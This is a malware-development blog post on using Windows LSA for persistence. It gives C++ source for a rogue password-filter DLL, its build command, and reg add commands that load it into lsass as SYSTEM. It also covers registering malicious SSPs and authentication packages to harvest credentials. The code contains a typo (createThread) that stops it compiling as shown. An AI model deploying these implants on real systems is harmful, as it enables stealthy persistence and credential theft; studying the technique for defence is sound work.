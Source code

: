 ```yaml
---
layout: post
title: Using LSA for Windows persistence
date: 2023-11-26
categories: [Malware Development,Persistence]
tags: [persistence]     
---
```



The Local Security Authority (LSA) is a subsystem in Windows architecture that authenticates and logs users to the local systems. It's responsible for verifying password changes, login attempts, creating access tokens, and performing general Windows authentication and authorization tasks. The LSA also contains the Local Security Policy, which contains aspects about everything related to local security. 

It achieves this through a process called Local Security Authority Subsystem Service (lsass.exe), which we all love dumping the memory of thanks to its contents. LSASS caches all kinds of credentials like the DPAPI masterkey, Kerberos passwords, tickets, ekeys, pins and so on.

What may surprise you is that LSA can also be used for persistence, in which case our code will be executed inside the lsass's process memory. Consequently, the code will run as the SYSTEM user, and we will be able to extract credentials from the address space. All of these techniques involve creating DLLs to be loaded by LSA into the lsass process. 

These techniques might not work if lsass is running as Protected Process Light (PPL), because our DLL has to be signed by Microsoft. I will talk about bypassing PPL in another post. For now, let's discover a few persistency procedures involving LSA.


### Password filters

LSA password filters are used to validate password changes against password policies. When you try to change your password, the LSA calls each registered password filter twice: once to verify the new password, and then to notify the filters that the change has been made. 

A password filter has to export three functions to be successfully registered:

- `InitializeChangeNotify`
This function gets called when the password filter is loaded into the LSA
- `PasswordFilter`
This function validates the newly created password
- `PasswordChangeNotify`
This is the function that gets called when the password is successfully changed

Here is a simple implementation, which will open a cmd shell and display the message "Persistence!" if our method is successful. Let's name this file `filter.cpp` 

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

int hack(void) 
{
   STARTUPINFO si;
   PROCESS_INFORMATION pi;

   ZeroMemory(&si, sizeof(si));
   si.cb = sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   wchar_t cmdLine[] = L"cmd /K echo Persistence!";

   if (!CreateProcess(NULL, cmdLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
   {
       
       return 1;
   }

   
   CloseHandle(pi.hProcess);
   CloseHandle(pi.hThread);

   return 0;
}

BOOLEAN __stdcall InitializeChangeNotify(void) 
{
   // We start our hack function, and return TRUE to let LSA know that everything went right
    HANDLE th;

    th = createThread(0, 0, (LPTHREAD_START_ROUTINE) hack, 0, 0, 0);
    WaitForSingleObject(th, 0);

    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(PUNICODE_STRING UserName, ULONG RelativeId, PUNICODE_STRING NewPassword) 
{ 

    return 0; 

}
BOOLEAN __stdcall PasswordFilter(PUNICODE_STRING AccountName, PUNICODE_STRING FullName, PUNICODE_STRING Password, BOOLEAN SetOperation) 
{ 
    // this function returns TRUE in order to tell LSA that the password is ok
    return TRUE; 

}
```

We also need to export the functions we defined, by creating a file `filter.def`.

```
LIBRARY
EXPORTS
  InitializeChangeNotify
  PasswordFilter
  PasswordChangeNotify
```

Finally, to create our DLL we can compile those two as such:

```cmd
cl.exe /W0 /D_USRDLL /D_WINDLL filter.cpp filter.def /MT /link /DLL /OUT:filter.dll
```

To register this fake "password filter" we need to change the `Notification Packages` entry in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key to contain the name of our DLL. But first, let's see the current value of the aforementioned entry:

```cmd
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" 

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    Notification Packages    REG_MULTI_SZ    scecli
```
We see that it holds the value `scecli`, and it is a `REG_MULTI_SZ` type, which means that it contains a sequence of null-terminated strings `Kind\0Of\0Like\0This\0\0`. The first '\0' terminates the first string, the second-from-last `\0` terminates the last string, and the final `\0` terminates the sequence.

So to add our DLL to the `Notification Packages` entry, we must copy our `filter.dll` to `%windir%\System32\` and then execute

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /d "scecli"\0"filter" /t REG_MULTI_SZ /f
```

After a restart, LSA should load our dll into its address space, and now we have persistence.


### Authentication packages (AuthPkg) and Security Support Provider (SSP)

Authentication packages are mainly used for instructing LSA on what basis to authenticate a user. For example, the MSV1_0 AuthPkg checks the SAM database to determine whether the provided credentials are correct or not. SSPs on the other hand, are an implementation of security protocols like Kerberos or NTLM. 

LSA automatically loads all registered SSPs and AuthPkgs into its process at boot:

- In the case of SSP it calls the `SpLsaModeInitialize` function to obtain pointers to the functions implemented by each security package in that DLL. Those pointers are passed to the LSA in an array called `SECPKG_FUNCTION_TABLE`. 

- In the case of an AuthPkg, LSA calls `LsaApInitializePackage` to initialize the authentication package.

To achieve persistence using this method, all we have to do is copy the dll to `%windir%\System32` and add it's name to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` registry. Alternatively, we can use PowerSploit's `Install-SSP` function or Empire's `install_ssp` module.

For example, we can look at Mimilib. Particularly, the [kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c) component, in which we notice that the function `kssp_SpLsaModeInitialize` is exported as `SpLsaModeInitialize` in `Mimilib.def`. Consequently, when LSA loads this SSP, the preceding function is called, and Mimilib achieves it's functionality.  


### Extras

If you wish to see another implementation of process filters, check out [this code](https://github.com/gtworek/PSBits/blob/master/PasswordStealing/PSPY.c). I also suggest reading more about authentication packages and SSPs from the official Microsoft docs, as I haven't covered those concepts in great depth.

Thank you for reading until the end!


### Resources 

https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-packages
https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture
